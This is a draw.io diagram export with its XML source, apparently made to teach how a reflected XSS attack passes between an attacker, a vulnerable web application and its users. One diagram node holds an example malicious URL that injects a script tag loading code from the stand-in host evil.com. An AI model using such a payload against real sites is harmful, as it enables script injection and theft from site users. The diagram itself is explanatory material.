

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="864" dy="485" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="OruzVQeod1YLG3rlVfQn-19" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;exitPerimeter=0;fillColor=#f8cecc;strokeColor=#b85450;" edge="1" parent="1" source="OruzVQeod1YLG3rlVfQn-1" target="OruzVQeod1YLG3rlVfQn-2">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="680" y="282" />
          <mxPoint x="680" y="330" />
          <mxPoint x="410" y="330" />
          <mxPoint x="410" y="384" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-1" value="users" style="verticalLabelPosition=bottom;html=1;verticalAlign=top;align=center;strokeColor=none;fillColor=#00BEF2;shape=mxgraph.azure.computer;pointerEvents=1;" vertex="1" parent="1">
      <mxGeometry x="600" y="259" width="50" height="45" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.041;entryY=0.981;entryDx=0;entryDy=0;entryPerimeter=0;fillColor=#dae8fc;strokeColor=#6c8ebf;" edge="1" parent="1" source="OruzVQeod1YLG3rlVfQn-2" target="OruzVQeod1YLG3rlVfQn-14">
      <mxGeometry relative="1" as="geometry">
        <mxPoint x="205" y="230" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-2" value="Attacker" style="shape=image;html=1;verticalAlign=top;verticalLabelPosition=bottom;labelBackgroundColor=#ffffff;imageAspect=0;aspect=fixed;image=https://cdn0.iconfinder.com/data/icons/kameleon-free-pack-rounded/110/Hacker-128.png" vertex="1" parent="1">
      <mxGeometry x="200" y="360" width="48" height="48" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="OruzVQeod1YLG3rlVfQn-3" target="OruzVQeod1YLG3rlVfQn-14">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-3" value="Vulnerably web Application" style="image;aspect=fixed;perimeter=ellipsePerimeter;html=1;align=center;shadow=0;dashed=0;spacingTop=3;image=img/lib/active_directory/generic_server.svg;" vertex="1" parent="1">
      <mxGeometry x="370" y="150" width="28.000000000000004" height="50" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-4" value="Reflected XSS" style="text;html=1;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
      <mxGeometry x="316.5" y="259" width="135" height="41" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-14" value="https://www.youtube.com/user/account/welcome=?users&amp;lt;script&amp;gt;https://evil.com/badscript.js&amp;lt;/script&amp;gt;" style="whiteSpace=wrap;html=1;verticalAlign=top;labelBackgroundColor=default;shadow=0;dashed=0;spacingTop=3;" vertex="1" parent="1">
      <mxGeometry x="181" y="30" width="406" height="55" as="geometry" />
    </mxCell>
    <mxCell id="OruzVQeod1YLG3rlVfQn-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;entryPerimeter=0;fillColor=#f8cecc;strokeColor=#b85450;" edge="1" parent="1" source="OruzVQeod1YLG3rlVfQn-14" target="OruzVQeod1YLG3rlVfQn-1">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>